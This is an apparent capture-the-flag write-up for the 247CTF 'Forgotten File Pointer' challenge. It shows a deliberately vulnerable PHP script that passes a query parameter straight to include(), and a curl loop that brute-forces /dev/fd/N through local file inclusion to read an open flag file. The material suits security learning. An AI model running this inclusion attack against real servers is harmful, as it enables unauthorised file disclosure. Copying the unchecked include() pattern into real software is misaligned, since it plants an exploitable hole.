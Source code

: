 # FORGOTTEN FILE POINTER [MODERATE]

## Description

> We have opened the flag, but forgot to read and print it. Can you access it anyway?

## Source Code

![source.png](img/source.png)

<details><summary>Click here for source code in text format</summary>

```php
<?php
  $fp = fopen("/tmp/flag.txt", "r");
  if($_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['include']) && strlen($_GET['include']) <= 10) {
    include($_GET['include']);
  }
  fclose($fp);
  echo highlight_file(__FILE__, true);
?>
```

</details>

## Short Solution Description / Tags

LFI /dev/fd/\<fd>

## Solution

A length of `include` query parameter should be less than or equal to 10.
The length of `/tmp/flag.txt` is 13 so we cannot use it to get the flag.
Instead, /dev/fd/\<fd> is useful.

```console
$ for i in $(seq 1 100); do curl -s -G https://28ffbc7bf3f45057.247ctf.com/ --data-urlencode "include=/dev/fd/${i}" | grep 247CTF && break; done
247CTF{[REDACTED]}
```

## References

- [PHP :: Request #26158 :: Open arbitrary file descriptor with fopen](https://bugs.php.net/bug.php?id=26158)
